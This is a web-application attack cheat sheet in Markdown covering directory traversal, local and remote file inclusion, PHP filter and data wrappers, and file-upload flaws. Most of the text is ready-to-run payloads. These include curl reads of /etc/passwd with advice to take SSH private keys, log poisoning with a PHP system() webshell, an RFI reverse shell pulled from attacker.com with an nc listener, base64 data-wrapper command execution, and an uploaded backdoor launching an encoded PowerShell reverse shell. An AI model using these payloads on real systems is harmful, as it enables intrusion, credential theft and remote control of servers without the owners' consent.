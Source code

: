 
# Common Attacks towards Web Applications

## Directory Traversal

* Test if path traversal is possible
* Windows `C:\Windows\System32\drivers\etc\hosts`
* Linux `/etc/passwd`

Curl

* --path-as-is for ../
* Windows LFI without C:

```bash
curl --path-as-is http://target-URL/public/../../../../../../../../WINDOWS/System32/drivers/etc/hosts
curl --path-as-is http://target-URL/public/../../../../../../../../etc/passwd
```

Intruder Payload

```bash
# single url %2e%2e%2f 
# double url %252e%252e%252f 
res=" "; pattern="../"; for i in {1..10}; do res=$res$pattern; echo $res; done
```

On Windows system, try to read `C:/WINDOWS/System32/drivers/etc/hosts` file first to test for path traversal. Next try to read files of the identified web server and it's configuration file or logs. Try to find sensitive information like username or passwords.

In Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of `/etc/passwd`, check for private keys in their home directory `/home/user/.ssh/id_rsa`, and use them to access the system via SSH.

## Local File Inclusion

The big difference between path traversal and file inclusion (LI) is that LI allows to **execute files** where path traversal only allows to read them. The **code execution** is major attack vector.

Linux Web Servers

* PATH `/var/www/html/login.html.`
* URLs `https://example.com/login.html`
* POIs `https://example.com/cms/login.php?page=en.html`
  * subfolder cms
  * PHP language
  * file inclusion

Windows Web Server

* [LFI](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e)
* [IIS Log Management](https://learn.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)
* ISS Conf `\inetpub\wwwroot\web.config`
* ISS Logs `\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log`
* Apache Conf `/xampp/apache/conf/httpd.conf`
* Apache Logs `/xampp/apache/logs/access.log`
* Apache Logs `/xampp/apache/logs/error.log`
* Sensitive information: user, passwords

The goal of an LFI exploit is to load/include poisoned files with a interpreter to execute code. Log file poisoning allows the attacker to put malicious code written in e.g. PHP/python/ASP/JSP/perl/JS into a log file which gets executed by attacked website. The basic attack vector is the `system` call to execute arbitrary code using URL or POST data payload. (RCE)

More info about webshell can be found here `kali ll /usr/share/webshells/php/`

Example:

* Navigate to `https://example.com/index.php?page=admin.php`
* Include local log file `../../xampp/apache/logs/access.log`
* Identify that controlled User Agent gets logged `Mozilla/5.0`
* Trigger log poisoning with curl -A "user-agent-name-here" e.g. `<?php echo system($_GET['cmd']); ?>`
* Include log file to execute cmd `../../xampp/apache/logs/access.log?cmd=id`

```bash
curl -i -k https://example.com/index.php?page=../../../../../../../../../xampp/apache/logs/access.log
# code allows to run a simple command supplied by the URL (encoding)
curl -i -A "Mozilla/5.2 <?php echo system($_GET['cmd']); ?>"
curl -i -k https://example.com/index.php?page=../../../../../../../../../xampp/apache/logs/access.log&cmd=ps
```

## Remote File Inclusion

* Requires allow_url_include `https://www.php.net/manual/en/filesystem.configuration.php`
* Requires an interpretet language
* See `/usr/share/webshells`

Remote file inclusion (RFI) works like that LFI but has security misconfiguration as precondition. Given the PHP setting `allow_url_include` is active, an attacker can host the include file remotely. It can use a HTTP server to do so and wait for an reverse shell

Example:

* Navigate to `/usr/share/webshells`
* Setup HTTP server `python -m simple.http 80`
* Setup TCP listener (NC reverse shell)
* Navigate to `https://example.com/index.php?page=admin.php`
* Include the remote file `page=http://attacker.com/php-reverse-shell.php`
* Use newly spawned reverse shell on TCP listener

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/
sed -i "s/$ip = '127.0.0.1'/$ip = 'attacker.com'/g" php-reverse-shell.php
sed -i "s/$port = 1234/$port = 4444/g" php-reverse-shell.php
python -m simple.http 80
nc -nlvp 4444
curl -k -i https://example.com/index.php?page=http://attacker.com/php-reverse-shell.php
```

## Read Filter and Data Execution

* Requires allow_url_include `https://www.php.net/manual/en/filesystem.configuration.php`
* PHP Read File Filter `https://www.php.net/manual/en/wrappers.php.php`
* PHP Data Execution `https://www.php.net/manual/en/wrappers.data.php`

```bash
# Read File content in Base64 format with php://filter
curl http://example.com/index.php?page=php://filter/resource=admin.php
curl http://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
# Execute Cmd with php://data from
curl "http://example.com/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
## File Upload Vulnerability

* Find file uploads in the app (images, texts, doc)
* Identify programming language
* Try to upload a webshell `/usr/share/webshells`
* Identify underlying OS
* Setup a TCP listener `nc -nlvp 444`
* Prepare reverse shell e.g. PS `https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3`
* Use the installed webshell and `powershell -enc` to run a base64 encoded reverse shell exploit

```powershell
# Install a PHP webshell
curl --upload-file /usr/share/webshell/php/simple-backdoor.php http://target.com/meteor/upload.php
# Prepare PS reverse shell
pwsh
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
# Encode utf-8 and convert to base 64 
$Base64Shell = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))
# Exploit
curl http://target.com/meteor/uploads/simple-backdoor.php?cmd=powershell%20-enc%20$Base64Shell
...
